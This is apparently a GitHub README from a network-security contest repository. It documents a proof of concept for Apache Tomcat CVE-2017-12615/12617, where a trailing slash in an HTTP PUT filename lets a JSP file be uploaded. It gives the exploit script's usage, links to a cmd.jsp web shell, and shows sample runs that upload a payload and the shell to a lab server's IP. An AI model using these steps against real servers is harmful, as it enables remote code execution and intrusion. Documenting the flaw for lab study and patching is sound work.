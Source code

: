 # CVE-2017-12615 & CVE-2017-12617

We present the PoC for CVE-2017-12615 and CVE-2017-12617

They are essentially the same vulnerability, except that CVE-2017-12615 was not properly mitigated and still remained in Apache Tomcat 7.0.81 hence it gave rise to CVE-2017-12617.

`Vulnerable versions`:
Apache Tomcat versions 9.0.0.M1 to 9.0.0, 8.5.0 to 8.5.22, 8.0.0.RC1 to 8.0.46 and 7.0.0 to 7.0.81 with HTTP PUTs enabled

It is possible for any unauthorised user to upload JSP files through PUT method. The JSP file can then be accessed on the server to get Remote Code Execution. Although a user is not allowed to upload JSP files by PUT method, the check can be bypassed by appending a '/' to the file name. For example, /1.jsp/ will fail the JSP extension check and 1.jsp will be uploaded on the server. 

## The Vulnerability

When `readonly` is set to `false`, it is possible for any unauthorised user to upload JSP files on the server by simply appending '/' in the file name.

This is an issue in the way Tomcat's file API works. The normalised file name does not strip the '/' at the end of the file name before checking for the file type which allows us to bypass the JSP check and upload the file.

This can result in RCE by uploading a suitable JSP shell page.
## Setup

An instance of Windows_Server-2019-English-Full-Base-2021.03.10 on AWS was setup as a remote machine running Apache Tomcat 7.0.81.

We need to allow PUT methods, so in `%CATALINA_HOME%\conf\web.xml`, the `readonly` parameter in Default was set to `false`

This allows the use of PUT method.

![web_xml](./img/web_xml.png)

## Running PoC

The PoC is given [here](https://github.com/dishankgoel/InterIIT-NetworkSecurity/blob/master/CVE-2017-12615/exploit.py)

```
usage: exploit.py [-h] [-p PORT] [--ssl] (-f FILE | -c PAYLOAD) host

positional arguments:
  host                  Host name or IP

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port of Tomcat server, default: 8080
  --ssl                 If server uses ssl
  -f FILE, --file FILE  JSP file to be uploaded
  -c PAYLOAD, --payload PAYLOAD
                        JSP payload to inject
```

There is a cmd.jsp present [here](https://github.com/dishankgoel/InterIIT-NetworkSecurity/blob/master/CVE-2017-12615/cmd.jsp) which can be used to run any command on the server. You can either upload this file or provide your own payload that can be uploaded.

`3.140.7.1` is the IP of the remote machine.

```python3 exploit.py -c '<% out.println("hello");%>' 3.140.7.1```
```
[*] Uploading JSP Payload
[*] Payload Uploaded Successfully!
[*] Access here: http://3.140.7.1:8080/1.jsp
[*] Response:
hello

```

```python3 exploit.py -f cmd.jsp 3.140.7.1```
```
[*] Uploading JSP Payload
[*] Payload Uploaded Successfully!
[*] Access here: http://3.140.7.1:8080/cmd.jsp
[*] Response:


<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>

</pre>
</BODY></HTML>
```
